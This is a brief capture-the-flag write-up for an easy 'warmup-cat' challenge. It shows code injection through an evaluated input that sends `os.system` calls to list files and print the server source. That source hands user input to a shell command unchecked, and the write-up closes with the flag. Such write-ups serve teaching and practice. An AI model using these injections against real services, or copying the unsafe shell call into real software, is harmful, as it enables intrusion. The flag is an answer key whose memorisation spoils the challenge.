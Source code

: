 # warmup-cat (50pts, 99 solved) Misc [Easy]

## First look
When we connect to the given ip and port and enter some random input, we get the following output:
```
Exec: foo
foo
Traceback (most recent call last):
  File "server.py", line 2, in <module>
    Niswanob1=input('Exec: ')
  File "<string>", line 1, in <module>
NameError: name 'foo' is not defined
```

## Solving
The application looks like it's just `eval`uating what we put in. So we can just find the flag -> `os.system("ls -la")` ->
```
total 28
drwxr-xr-x 1 root root 4096 Nov 10 11:28 .
drwxr-xr-x 1 root root 4096 Oct 12 11:19 ..
-rw-r--r-- 1 ctf  ctf   220 Aug 31  2015 .bash_logout
-rw-r--r-- 1 ctf  ctf  3771 Aug 31  2015 .bashrc
-rw-r--r-- 1 ctf  ctf   655 Jul 12  2019 .profile
-rwxrwxr-x 1 root root   16 Nov 10 11:28 run.sh
-rwxr-xr-x 1 root root  141 Nov 10 11:28 server.py
```
`os.system("cat server.py")` -> 
```
import os
Niswanob1=input('Exec: ')
os.system(('\\cat ' + Niswanob1))
# ctf{c7592e4a8e0b395cb2c0b661c567a8c9eb2bcbeea9c79c08b722914d2b5e3a55}
```

Where we find our flag: `ctf{c7592e4a8e0b395cb2c0b661c567a8c9eb2bcbeea9c79c08b722914d2b5e3a55}`
